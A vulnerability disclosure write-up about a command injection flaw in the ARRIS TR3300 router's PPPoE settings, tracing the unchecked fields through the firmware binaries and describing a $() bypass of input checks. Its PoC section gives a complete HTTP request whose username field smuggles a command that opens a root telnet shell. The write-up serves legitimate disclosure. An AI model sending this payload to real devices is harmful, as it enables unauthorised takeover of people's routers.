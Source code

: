 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `pppoe` function(`wan_pppoe.html`), `pppoe_username、pppoe_passwd、pppoe_servicename` is directly passed by the attacker, so we can control the `pppoe_username、pppoe_passwd、pppoe_servicename` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`pppoe_username、pppoe_password、pppoe_service`), and then call the function `nvram_set ` to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

As you can see here, in `sub_40D424` function, the initial input will be extracted.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

In `sub_408290` function, save these unsafe user inputs in variable a2.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Call the function `nv_set` to store this input.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

In `start_ppp` binary:

Eventually, in `ftext` function, the initial input will cause command injection.

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

**Supplement**

BUT!!!!!

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/8.png" style="zoom:60%;" /></div>

**When receiving user input, there are very strict checks. But we can use `$()`  to bypass it!**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>



## PoC

We set `pppoe_username` as **$(/usr/sbin/utelnetd -l /bin/sh -p 10005)**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_pppoe.html
Upgrade-Insecure-Requests: 1

pppoe_enable=&pppoe_username=$(/usr/sbin/utelnetd -l /bin/sh -p 10005)&pppoe_passwd=abc123&pppoe_servicename=pjqwudi&pppoe_mtu=1492&h_pppoe_enable=enable&h_pppoe_dod=disable&todo=save&this_file=wan_pppoe.html&next_file=wan_pppoe.html&message=
```

<div  align="center"><img src="./images/10.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/11.png" style="zoom:80%;" /></div>
